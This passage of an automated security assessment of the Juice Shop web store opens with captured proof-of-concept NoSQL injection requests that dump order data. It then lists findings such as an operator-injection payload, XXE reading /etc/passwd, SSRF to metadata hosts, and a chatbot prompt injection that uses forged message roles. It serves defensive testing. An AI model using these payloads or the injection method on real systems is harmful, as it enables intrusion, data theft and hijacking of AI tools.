| 17 | `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28616334%21%3D%3D608908%29%20%…` | anonymous | 200, 351 bytes |
| 18 | `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28616334%21%3D%3D616334%29%20%…` | anonymous | 200, 98 bytes |
| 19 | `GET /rest/track-order/5267-173e24c7ffc77007` | anonymous | 200, 351 bytes |
| 20 | `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28608908%3D%3D%3D608908%29%20%…` | anonymous | 200, 351 bytes |
| 21 | `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28608908%3D%3D%3D616334%29%20%…` | anonymous | 200, 98 bytes |
| 22 | `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28616334%21%3D%3D608908%29%20%…` | anonymous | 200, 351 bytes |
| … | 11 more in the HAR file | | |

⟦…⟧ marks what the proof rests on. All requests and responses: `evidence/T-034-b2749fff0d93b959-poc.har`.

**Normal request · step 26** (baseline input) · `GET /rest/track-order/5267-173e24c7ffc77007` as anonymous → 200, 351 bytes

```http
GET /rest/track-order/5267-173e24c7ffc77007 HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007","email":"*dm*n@j**c*-sh.*p","totalPrice":8.96,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":1,"name":"Orange Juice (1000ml)","price":2.99,"total":2.99,"bonus":0}],"eta":"3","delivered":false,"_id":"rvEY9Y64zbqypF7ii"}]}
```

**Normal request · step 31** (baseline input) · `GET /rest/track-order/5267-173e24c7ffc77007` as anonymous → 200, 351 bytes

```http
GET /rest/track-order/5267-173e24c7ffc77007 HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007","email":"*dm*n@j**c*-sh.*p","totalPrice":8.96,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":1,"name":"Orange Juice (1000ml)","price":2.99,"total":2.99,"bonus":0}],"eta":"3","delivered":false,"_id":"rvEY9Y64zbqypF7ii"}]}
```

**Attack · step 27** (true condition) · `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28655396%3D%3D%3D655396%29%20%…` as anonymous → 200, 351 bytes

```text
Compared with the false condition in step 28: same status 200; 17 of 18 JSON values differ, e.g. /data/0/orderId: "5267-173e24c7ffc77007' && (655396===661429) && 'x'=='x" → "5267-173e24c7ffc77007"; /data/0/email: absent → "*dm*n@j**c*-sh.*p".
```

```http
GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28655396%3D%3D%3D655396%29%20%26%26%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007","email":"*dm*n@j**c*-sh.*p","totalPrice":8.96,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":1,"name":"Orange Juice (1000ml)","price":2.99,"total":2.99,"bonus":0}],"eta":"3","delivered":false,"_id":"rvEY9Y64zbqypF7ii"}]}
```

**Attack · step 28** (false condition) · `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28655396%3D%3D%3D661429%29%20%…` as anonymous → 200, 98 bytes

```text
Compared with the normal request in step 26: same status 200; 17 of 18 JSON values differ, e.g. /data/0/orderId: "5267-173e24c7ffc77007" → "5267-173e24c7ffc77007' && (655396===661429) && 'x'=='x"; /data/0/email: "*dm*n@j**c*-sh.*p" → absent.
```

```http
GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28655396%3D%3D%3D661429%29%20%26%26%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007' && (655396===661429) && 'x'=='x"}]}
```

**Attack · step 29** (true condition, second form) · `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28661429%21%3D%3D655396%29%20%…` as anonymous → 200, 351 bytes

```text
Compared with the false condition, second form in step 30: same status 200; 17 of 18 JSON values differ, e.g. /data/0/orderId: "5267-173e24c7ffc77007' && (661429!==661429) && 'x'=='x" → "5267-173e24c7ffc77007"; /data/0/email: absent → "*dm*n@j**c*-sh.*p".
```

```http
GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28661429%21%3D%3D655396%29%20%26%26%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007","email":"*dm*n@j**c*-sh.*p","totalPrice":8.96,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":1,"name":"Orange Juice (1000ml)","price":2.99,"total":2.99,"bonus":0}],"eta":"3","delivered":false,"_id":"rvEY9Y64zbqypF7ii"}]}
```

**Attack · step 30** (false condition, second form) · `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28661429%21%3D%3D661429%29%20%…` as anonymous → 200, 98 bytes

```text
Compared with the normal request in step 26: same status 200; 17 of 18 JSON values differ, e.g. /data/0/orderId: "5267-173e24c7ffc77007" → "5267-173e24c7ffc77007' && (661429!==661429) && 'x'=='x"; /data/0/email: "*dm*n@j**c*-sh.*p" → absent.
```

```http
GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28661429%21%3D%3D661429%29%20%26%26%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007' && (661429!==661429) && 'x'=='x"}]}
```

**Attack · step 32** (true condition) · `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28655396%3D%3D%3D655396%29%20%…` as anonymous → 200, 351 bytes

```text
Compared with the false condition in step 33: same status 200; 17 of 18 JSON values differ, e.g. /data/0/orderId: "5267-173e24c7ffc77007' && (655396===661429) && 'x'=='x" → "5267-173e24c7ffc77007"; /data/0/email: absent → "*dm*n@j**c*-sh.*p".
```

```http
GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28655396%3D%3D%3D655396%29%20%26%26%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007","email":"*dm*n@j**c*-sh.*p","totalPrice":8.96,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":1,"name":"Orange Juice (1000ml)","price":2.99,"total":2.99,"bonus":0}],"eta":"3","delivered":false,"_id":"rvEY9Y64zbqypF7ii"}]}
```

**Attack · step 33** (false condition) · `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28655396%3D%3D%3D661429%29%20%…` as anonymous → 200, 98 bytes

```text
Compared with the normal request in step 26: same status 200; 17 of 18 JSON values differ, e.g. /data/0/orderId: "5267-173e24c7ffc77007" → "5267-173e24c7ffc77007' && (655396===661429) && 'x'=='x"; /data/0/email: "*dm*n@j**c*-sh.*p" → absent.
```

```http
GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28655396%3D%3D%3D661429%29%20%26%26%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007' && (655396===661429) && 'x'=='x"}]}
```

**Attack · step 34** (true condition, second form) · `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28661429%21%3D%3D655396%29%20%…` as anonymous → 200, 351 bytes

```text
Compared with the false condition, second form in step 35: same status 200; 17 of 18 JSON values differ, e.g. /data/0/orderId: "5267-173e24c7ffc77007' && (661429!==661429) && 'x'=='x" → "5267-173e24c7ffc77007"; /data/0/email: absent → "*dm*n@j**c*-sh.*p".
```

```http
GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28661429%21%3D%3D655396%29%20%26%26%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007","email":"*dm*n@j**c*-sh.*p","totalPrice":8.96,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":1,"name":"Orange Juice (1000ml)","price":2.99,"total":2.99,"bonus":0}],"eta":"3","delivered":false,"_id":"rvEY9Y64zbqypF7ii"}]}
```

**Attack · step 35** (false condition, second form) · `GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28661429%21%3D%3D661429%29%20%…` as anonymous → 200, 98 bytes

```text
Compared with the normal request in step 26: same status 200; 17 of 18 JSON values differ, e.g. /data/0/orderId: "5267-173e24c7ffc77007" → "5267-173e24c7ffc77007' && (661429!==661429) && 'x'=='x"; /data/0/email: "*dm*n@j**c*-sh.*p" → absent.
```

```http
GET /rest/track-order/5267-173e24c7ffc77007%27%20%26%26%20%28661429%21%3D%3D661429%29%20%26%26%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007' && (661429!==661429) && 'x'=='x"}]}
```

**Step 6** · `GET /rest/track-order/vrf23d9a53d%27%20%7C%7C%20%27x%27%3D%3D%27x` as anonymous → 200, 920 bytes

```http
GET /rest/track-order/vrf23d9a53d%27%20%7C%7C%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007","email":"*dm*n@j**c*-sh.*p","totalPrice":8.96,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":1,"name":"Orange Juice (1000ml)","price":2.99,"total":2.99,"bonus":0}],"eta":"3","delivered":false,"_id":"rvEY9Y64zbqypF7ii"},{"orderId":"5267-4e22edc919738607","email":"*dm*n@j**c*-sh.*p","totalPrice":26.97,"bonus":3,"products":[{"quantity":3,"name":"Eggfruit Juice (500ml)","price":8.99,"total":26.97,"bonus":3}],"eta":"0","delivered":true,"_id":"h4nagernroPfFqsqo"},{"orderId":"fe01-5e9f89f06cff2ef9","email":"d*m*","totalPrice":30.92,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":5,"name":"Raspberry Juice (1000ml)","price":4.99,"total":24.950000000000003,"bonus":0}],"eta":"0","delivered":true,"_id":"BrMSQYBxkYRyHELsS"}]}
```

**Step 9** · `GET /rest/track-order/vrf23d9a53d%27%20%7C%7C%20%27x%27%3D%3D%27x` as anonymous → 200, 920 bytes

```http
GET /rest/track-order/vrf23d9a53d%27%20%7C%7C%20%27x%27%3D%3D%27x HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[{"orderId":"5267-173e24c7ffc77007","email":"*dm*n@j**c*-sh.*p","totalPrice":8.96,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":1,"name":"Orange Juice (1000ml)","price":2.99,"total":2.99,"bonus":0}],"eta":"3","delivered":false,"_id":"rvEY9Y64zbqypF7ii"},{"orderId":"5267-4e22edc919738607","email":"*dm*n@j**c*-sh.*p","totalPrice":26.97,"bonus":3,"products":[{"quantity":3,"name":"Eggfruit Juice (500ml)","price":8.99,"total":26.97,"bonus":3}],"eta":"0","delivered":true,"_id":"h4nagernroPfFqsqo"},{"orderId":"fe01-5e9f89f06cff2ef9","email":"d*m*","totalPrice":30.92,"bonus":0,"products":[{"quantity":3,"name":"Apple Juice (1000ml)","price":1.99,"total":5.97,"bonus":0},{"quantity":5,"name":"Raspberry Juice (1000ml)","price":4.99,"total":24.950000000000003,"bonus":0}],"eta":"0","delivered":true,"_id":"BrMSQYBxkYRyHELsS"}]}
```

###### Technical QA

not-reviewed. 0 technical reviews and 0 correction rounds for this variant; the finding shares at most two rounds. QA does not assign the technical verdict.

```text
A confirmed verdict whose proof check passed is not reviewed (VER-046).
```

###### Evidence review

Clear after 0 of 2 correction rounds and 1 reviews. The review judges how the evidence is presented, not the verdict. No screenshot was shown to a model.

```text
Evidence text and layout checks passed; no screenshot shown to the model (no application screenshot to show).
```

**Variant variant-002:** not attempted

> not tested: safe mode; every declared variant needs a state change

<a id="t-035"></a><a id="f-035"></a>
#### F-035 · NoSQL operator injection and missing

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/updateProductReviews.ts:18`

**Found by:** survey and verification ([TC-INPUT-02](#tc-input-02))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Issue:** Any authenticated user sends PATCH `/rest/products/reviews` with id as an operator object such as `{"$ne":-1}`. The _id predicate then matches every review and `multi:true` rewrites every review message, overwriting other users' reviews (`routes/updateProductReviews.ts:18`).

`isAuthorized` only verifies that a token is valid, and there is no ownership check.

**Evidence:** ✓ verified

```typescript
  16 │     const user = security.authenticatedUsers.from(req) // vuln-code-snippet vuln-line forgedReviewChallenge
  17 │     db.reviewsCollection.update( // vuln-code-snippet neutral-line forgedReviewChallenge
→ 18 │       { _id: req.body.id }, // vuln-code-snippet vuln-line noSqlReviewsChallenge forgedReviewChallenge
  19 │       { $set: { message: req.body.message } },
  20 │       { multi: true } // vuln-code-snippet vuln-line noSqlReviewsChallenge
```

**Fix:** Replace string concatenation in query operators with parameter binding → ◕ [M-053](#m-053) — Enforce review ownership and scalar ids

**Classification:** Injection · STRIDE: Tampering · [CWE-943](https://cwe.mitre.org/data/definitions/943.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-02](#tc-input-02)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** not attempted

> not tested: safe mode; every declared variant needs a state change

<a id="t-036"></a><a id="f-036"></a>
#### F-036 · Wallet top-up accepts unvalidated attacker-chosen balance

**Severity:** 🟠 High - verified attack-chain keystone in AC-B-005 (User exceeds a limit or a one-time entitlement); see [§9](#9-abuse-cases)  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/wallet.ts:27`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** An authenticated user with any saved card sends PUT `/rest/wallet/balance` with an arbitrary balance value. The handler checks only card ownership and increments the wallet by `req.body.balance`.

No payment is processed and there is no range or type validation, so the user can mint credit or send negative values.

**Evidence:** ✓ verified

```typescript
  25 │     if (card != null) {
  26 │       try {
→ 27 │         await WalletModel.increment({ balance: req.body.balance }, { where: { UserId: req.body.UserId } })
  28 │         res.status(200).json({ status: 'success', data: req.body.balance })
  29 │       } catch {
```

**Fix:** ◕ [M-054](#m-054) — Validate and bound top-up amount

**Classification:** Broken Access Control · STRIDE: Tampering · [CWE-1284](https://cwe.mitre.org/data/definitions/1284.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant v1:** not attempted

> no supported proof method for CWE-1284

<a id="t-037"></a><a id="f-037"></a>
#### F-037 · User-controlled username compiled as Pug template

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/userProfile.ts:87`

**Found by:** scanners and verification ([TC-INPUT-03](#tc-input-03))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-018](#w-018) - Application data crosses into template source

**Issue:** A persisted record read reaches template compilation. The stored username is substituted into the Pug template text before `pug.compile`, so a username containing Pug syntax is compiled as template code (interpolation or code lines) when the profile page is requested.

Attacker control and active configuration require verification.

**Evidence:** ✓ verified

```typescript
  85 │     try {
  86 │       const pug = (await import('pug')).default
→ 87 │       const fn = pug.compile(template)
  88 │       const CSP = `img-src 'self' ${user?.profileImage}; script-src 'self' 'unsafe-eval'`
  89 │
```

**Fix:** ◕ [M-055](#m-055) — Remove server-side evaluation of untrusted input (🟠 [F-037](#f-037))

**Classification:** Injection · STRIDE: Tampering · [CWE-1336](https://cwe.mitre.org/data/definitions/1336.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-03](#tc-input-03) · Rules: INJ-NODE-008

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** not attempted

> not tested: safe mode; every declared variant needs a state change

<a id="t-038"></a><a id="f-038"></a>
#### F-038 · Chatbot accepts client-supplied message roles and history

**Severity:** 🟠 High - verified attack-chain keystone in AC-T-007 (Privileged Action via Prompt Injection into a Tool-Calling Model); see [§9](#9-abuse-cases)  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/chat.ts:206`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** LLM01/ASI01: the unauthenticated POST `/rest/chat` passes `req.body.messages` directly to `streamText`, so a caller can inject system, assistant or tool-role turns and forged history to override the system prompt rules and steer tool calls.

**Evidence:** ✓ verified

```typescript
  204 │         model: provider(model),
  205 │         system: systemPrompt,
→ 206 │         messages,
  207 │         tools: { ...chatTools },
  208 │         maxRetries: config.get<number>('application.chatBot.llmMaxRetries'),
```

**Fix:** ◕ [M-056](#m-056) — Validate chat messages to user role only

**Classification:** Injection · STRIDE: Tampering · [CWE-1427](https://cwe.mitre.org/data/definitions/1427.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** not attempted

> no supported proof method for CWE-1427

<a id="t-039"></a><a id="f-039"></a>
#### F-039 · Unauthenticated key and log file exposure

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/keyServer.ts:14`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Issue:** `/encryptionkeys` and `/support/logs` are directory-indexed and their file handlers serve any file with no authentication or extension restriction, exposing key material and access logs.

**Evidence:** ✓ verified

```typescript
  12 │
  13 │     if (!file.includes('/')) {
→ 14 │       res.sendFile(path.resolve('encryptionkeys/', file))
  15 │     } else {
  16 │       res.status(403)
```

**Fix:** ◕ [M-057](#m-057) — Remove public key and log directories

**Classification:** Unauthenticated Management Plane · STRIDE: Information Disclosure · [CWE-538](https://cwe.mitre.org/data/definitions/538.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict inconclusive does not change the rating).

> stopped: three actions in a row failed without a usable observation; the last: plan_test: the comparison sends one concrete GET: give path as /a/b with every placeholder filled in, and query inputs in fixed.params

###### Technical QA

not-reviewed. 0 technical reviews and 0 correction rounds for this variant; the finding shares at most two rounds. QA does not assign the technical verdict.

```text
No proposed conclusion was reviewed.
```

###### Evidence review

Not-reviewed after 0 of 2 correction rounds and 0 reviews. The review judges how the evidence is presented, not the verdict. No screenshot was shown to a model.

```text
Review not started: no confirmed variant to present.
```

<a id="t-040"></a><a id="f-040"></a>
#### F-040 · XML external entity expansion in upload parser

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `lib/xml.ts:35`

**Reliability:** Low. Not confirmed, this may be a false positive: The unsafe parser is shown, but the `/file-upload` caller, its auth, and the error-message echo are not in the supplied source.

**Weakness:** [W-021](#w-021) - XML external entity expansion in upload parser (`xml.ts:35`)

**Issue:** An unauthenticated attacker uploads an .xml file to `/file-upload`. `parseXmlString` enables NOENT and DTDLOAD and registers filesystem input providers, so external entities such as `file:///etc/passwd` resolve and the content is echoed in the error message.

**Evidence:** ◌ ambiguous

```typescript
  33 │ export async function parseXmlString (data: string, timeoutMs = 2000): Promise<string> {
  34 │   const libxml2 = await loadLibxml2()
→ 35 │   const option = libxml2.ParseOption.XML_PARSE_NOENT | libxml2.ParseOption.XML_PARSE_DTDLOAD | libxml2.ParseOption.XML_PARSE_NOBLANKS | libxml2.ParseOption.XML_PARSE_NOCDATA
  36 │   const sandbox = { libxml2, data, option }
  37 │   vm.createContext(sandbox)
```

**Fix:** Disable external entity resolution on every XML parser and reject DOCTYPE declarations → ◑ [M-008](#m-008) — Manual review: verify XML external entity expansion in upload parser · ◕ [M-058](#m-058) — Disable entity substitution and DTD loading

**Classification:** Insecure File Handling · STRIDE: Information Disclosure · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)

<a id="t-041"></a><a id="f-041"></a>
#### F-041 · XML parser resolves external entities in uploads

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `lib/xml.ts:38`

**Found by:** verification ([TC-INPUT-06](#tc-input-06))

**Reliability:** Medium. An automatic check confirmed part of the claim.

**Issue:** An uploaded .xml file is parsed with entity substitution and DTD loading enabled and filesystem providers registered, so an external entity reading `file:///etc/passwd` is expanded and returned in the error message to the uploader.

**Evidence:** ✓ verified

```typescript
  36 │   const sandbox = { libxml2, data, option }
  37 │   vm.createContext(sandbox)
→ 38 │   const xmlDoc = vm.runInContext('libxml2.XmlDocument.fromString(data, { option })', sandbox, { timeout: timeoutMs })
  39 │   const xmlString = xmlDoc.toString()
  40 │   xmlDoc.dispose()
```

**Fix:** Disable external entity resolution on every XML parser and reject DOCTYPE declarations → ◕ [M-058](#m-058) — Disable entity substitution and DTD loading

**Classification:** Insecure File Handling · STRIDE: Information Disclosure · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [OWASP A06:2025](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/) · Verification items: [TC-INPUT-06](#tc-input-06)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant v1:** not attempted

> no supported proof method for CWE-611

<a id="t-042"></a><a id="f-042"></a>
#### F-042 · Any authenticated user can read other users' records and all complaints

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** Multiple locations (2)

**Found by:** survey and verification ([TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-02](#tc-authz-02))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Instances (2):** `server.ts`: 365, 381

**Issue:** GET `/api/Users/:id` (`server.ts:365`) is guarded only by `isAuthorized`, which verifies the JWT but not ownership or role. A logged-in customer can request another user's id with their own token, or iterate ids, and read that user's email, role, `lastLoginIp`, `profileImage` and `deluxeToken`.

Likewise, GET `/api/Complaints` (`server.ts:381`) needs only a valid token and is served by a generated finale list with no per-user filter shown, so any logged-in user can read every user's complaints.

**Evidence:** ✓ verified

```typescript
server.ts
  363 │   app.get('/api/Users', security.isAuthorized())
  364 │   app.route('/api/Users/:id')
→ 365 │     .get(security.isAuthorized())
  366 │     .put(security.denyAll())
  367 │     .delete(security.denyAll())
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◕ [M-059](#m-059) — Enforce object ownership on user reads

**Classification:** Broken Access Control · STRIDE: Information Disclosure · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-01](#tc-authz-01), [TC-AUTHZ-02](#tc-authz-02)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict inconclusive does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** not attempted

> not tested: safe mode; without a declared test resource the Verifier creates one, which writes

**Variant variant-002:** not attempted

> not tested: safe mode; without a declared test resource the Verifier creates one, which writes

**Variant variant-003:** not attempted

> not tested: safe mode; without a declared test resource the Verifier creates one, which writes

<a id="t-043"></a><a id="f-043"></a>
#### F-043 · Password verification relies on unsalted MD5

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/changePassword.ts:39`

**Found by:** verification ([TC-AUTHN-04](#tc-authn-04))

**Reliability:** Low. Not confirmed, this may be a false positive: Handler calls `security.hash` and only checks non-empty/match, but the hash implementation and model setter are not in the window, so `MD5`/unsalted is unproven.

**Weakness:** [W-044](#w-044) - Security-sensitive data uses weak cryptographic primitives

**Issue:** The change-password handler compares and stores passwords through `security.hash`, an unsalted `MD5` digest, and only checks that the new password is non-empty and matches the repeat. An attacker who obtains the user table can crack hashes quickly with precomputed tables or GPU brute force.

**Evidence:** ◌ ambiguous - A non-iterating hash is used for password storage.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ◑ [M-009](#m-009) — Manual review: verify Password verification relies on unsalted MD5 with no strength policy · ◕ [M-060](#m-060) — Hash passwords with a strong, salted algorithm (🟠 [F-043](#f-043))

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · Verification items: [TC-AUTHN-04](#tc-authn-04)

<a id="t-044"></a><a id="f-044"></a>
#### F-044 · Server-side request forgery in profile

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/profileImageUrlUpload.ts:24`

**Found by:** survey and verification ([TC-INPUT-05](#tc-input-05))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Trust boundary gap:** [tb-9](#tb-9) - Juice Shop Express Server → external · Egress destination: The finding's evidence line is the interface this boundary cites; CWE-918 breaks its egress-destination condition.

**Issue:** A logged-in user posts any `imageUrl` to `/profile/image/url` (`routes/profileImageUrlUpload.ts:24`). The server fetches it with no scheme, host or destination filtering, so internal or cloud-metadata hosts are reached and the response is saved to the publicly served uploads folder, where the attacker can download it.

A valid session cookie is required.

**Evidence:** ✓ verified

```typescript
  22 │       if (loggedInUser) {
  23 │         try {
→ 24 │           const response = await fetch(url)
  25 │           if (!response.ok || !response.body) {
  26 │             throw new Error('url returned a non-OK status code or an empty body')
```

**Fix:** Validate the URL scheme + host against an explicit allow-list before issuing outbound requests → ◕ [M-061](#m-061) — Validate and allowlist outbound request targets

**Classification:** Server-Side Request Forgery · STRIDE: Information Disclosure · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-INPUT-05](#tc-input-05)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict inconclusive does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** not attempted

> not tested: safe mode; every request the assessment names writes

**Variant variant-002:** not attempted

> not tested: safe mode; every declared variant needs a state change

<a id="t-046"></a><a id="f-046"></a>
#### F-046 · Password reset response returns full user record

**Severity:** 🟠 High  ·  **Component:** [C-09](#c-09) - Authentication & Session Surface  ·  **Location:** `routes/resetPassword.ts:46`

**Reliability:** Low. Not confirmed, this may be a false positive: The handler returns `res.json({user: updatedUser})`, but the User model's serialization and hidden fields were not read, so password/`totpSecret` exposure is unproven.

**Weakness:** [W-029](#w-029) - Password reset response returns full user record (`resetPassword.ts:46`)

**Issue:** After a successful reset, the handler returns the whole updated user object, which can include the password hash and `totpSecret`, letting an attacker who answered the security question also obtain the TOTP secret and defeat 2FA.

**Evidence:** ◌ ambiguous - Sensitive runtime values are served unauthenticated to any caller.

**Fix:** Restrict the response to the minimum fields needed and never echo secrets → ◑ [M-010](#m-010) — Manual review: verify Password reset response returns full user record · ◕ [M-063](#m-063) — Return minimal fields from password reset

**Classification:** Error Information Disclosure · STRIDE: Information Disclosure · [CWE-200](https://cwe.mitre.org/data/definitions/200.html) · [OWASP A02:2025](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)

##### Dynamic verification

